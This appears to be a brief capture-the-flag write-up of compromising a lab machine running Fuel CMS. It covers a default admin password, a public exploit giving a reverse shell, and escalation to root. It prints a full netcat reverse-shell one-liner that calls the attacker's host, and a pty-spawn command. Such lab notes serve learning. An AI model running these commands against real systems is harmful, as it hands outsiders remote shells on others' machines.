
IP: 10.10.233.34
Nmap:
![[1.png]]

Website:
![[2.png]]

Gobuster:
![[3.png]]

Exploits:
![[4.png]]

Since the admin did not change their default password, it seems I can just login without having to brute force anything, or figure it out. 

The admin page is located at: http://10.10.233.34/fuel

This brings me to a CMS, where there is very little information.

I decide to now just try out an exploit I found called FuelCMS which grants me a reverse shell. 

![[8.png]]

Bingo!

![[9.png]]

I was able to find the user.txt flag pretty easily. 

Looking around, I was able to find a database file:
![[10.png]]

Root user found! Now I have to escalate. 

`rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.6.25.18 4242 > /tmp/f`

This spawns a terminal so that I can login to root:

`python -c 'import pty; pty.spawn("/bin/sh")'`

![[11.png]]